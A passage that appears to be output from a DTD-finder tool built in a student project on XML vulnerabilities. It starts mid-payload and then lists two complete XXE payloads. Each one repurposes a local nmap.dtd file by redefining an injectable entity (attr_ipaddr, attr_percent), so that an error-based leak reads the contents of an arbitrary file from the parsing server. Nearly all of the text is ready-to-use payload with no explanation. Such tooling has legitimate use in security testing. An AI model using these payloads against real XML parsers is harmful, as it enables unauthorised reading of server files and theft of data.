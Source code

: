 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd`

**Injectable entity:** `attr_ipaddr`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd">

    <!ENTITY % attr_ipaddr '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd`

**Injectable entity:** `attr_percent`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd">

    <!ENTITY % attr_percent '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```
